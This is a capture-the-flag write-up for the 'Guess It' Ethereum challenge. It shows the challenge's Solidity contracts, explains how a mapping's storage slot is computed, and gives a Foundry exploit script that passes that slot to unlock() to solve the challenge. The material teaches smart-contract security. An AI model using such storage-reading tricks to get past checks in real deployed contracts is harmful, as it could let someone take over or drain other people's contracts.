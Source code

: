 +++
date = '2024-12-30T08:39:43+05:30'
draft = true
title = 'Guess It'
categories=["Blockchain"]
series="War-Games-CTF"
tags=["Storage Layout"]
+++

# Writeup for GuessIt

- Before diving into this writeup, it’s crucial to have a solid understanding of Foundry, a powerful framework for Ethereum smart contract development. Foundry will be your primary tool for writing, testing, and breaking contracts in this guide.

### Challenge Description

Santa Clause has been kidnapped and is kept in a secret dungeon, can u unlock this contract and save him?

**Author:** MaanVad3r

### The Challenge and Exploit

The below are source contracts

1. **GuessIt** contract

```solidity
pragma solidity ^0.8.20;

contract EasyChallenge {
    uint constant isKey = 0x1337;

    bool public isKeyFound;
    mapping (uint => bytes32) keys; 

    constructor() {
        keys[isKey] = keccak256(
            abi.encodePacked(block.number, msg.sender) 
        );
    }

    function unlock(uint slot) external {
        bytes32 key;
        assembly {
            key := sload(slot)
        }
        require(key == keys[isKey]);
        isKeyFound = true;
    }
}
```

2. **Setup** contract

```solidity
pragma solidity ^0.8.20;

import "./GuessIt.sol";

contract Setup {
    EasyChallenge public challengeInstane;

    constructor() {
        challengeInstane = new EasyChallenge();
    }

    function isSolved() public view returns (bool) {
        return challengeInstane.isKeyFound(); 
    }
}
```

Our task is to make the `Setup:isSolved` function return true. This function will return true if the `GuessIt:isKeyFound` function returns true. Therefore, to solve this challenge, we need to make `GuessIt:isKeyFound `return true.

```solidity
function unlock(uint slot) external {
    bytes32 key;
    assembly {
        key := sload(slot)
    }
    require(key == keys[isKey]);
    isKeyFound = true;
}
```

`isKeyFound` is set to `true` only in this function. To call this function, we need to pass the storage slot address as a parameter. The function will load the content from the given slot and compare it with the value stored in the `keys` mapping for the key `isKey` (which is `0x1337`).

Technically, we need to pass the storage slot where the `keys` mapping holds the value for the key `0x1337`. If the content in that slot matches, the `isKeyFound` variable will be set to true.

The storage slot of any mapping can be calculated using the formula `keccak256(key, slot)`, where `key` is the key you are looking for in the mapping, and `slot` is the position of the mapping variable itself in the contract’s storage layout. The resulting hash points to the specific storage slot for the given key within the mapping.

In the `GuessIt` contract, `isKey` is a constant variable, which means it’s not stored in the contract's storage. Instead, its value (in this case, `0x1337`) is embedded directly in the contract’s bytecode. The `isKeyFound` variable is stored in storage slot 0, while the `keys` mapping starts at storage slot 1. To find the specific value in the keys mapping for the key `0x1337`, we calculate the storage slot using `keccak256(0x1337, 1)`.

The below is the Exploit script.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import {Script} from "lib/forge-std/src/Script.sol";

interface IEasyChallenge{
    function unlock(uint slot) external;
    function isKey()external view returns(uint256);
}

interface ISetup{
    function challengeInstane() external view returns(IEasyChallenge);
    
}
contract ExploitGuess is Script{
    ISetup setup;
    uint constant isKey = 0x1337;
    uint baseSlot = 1;
    function run()public{
        address _setup=address(/* YOUR_SETUP_ADDRESS */);
        vm.startBroadcast();
        setup=ISetup(_setup);
        IEasyChallenge challenge=setup.challengeInstane();
        uint256 slot=uint256(keccak256(abi.encodePacked(isKey, baseSlot)));
        challenge.unlock(slot);
        vm.stopBroadcast();
    }
}
```


<p style="text-align:center;">***<strong>Hope you enjoyed this write-up. Keep on hacking and learning!</strong>***</p>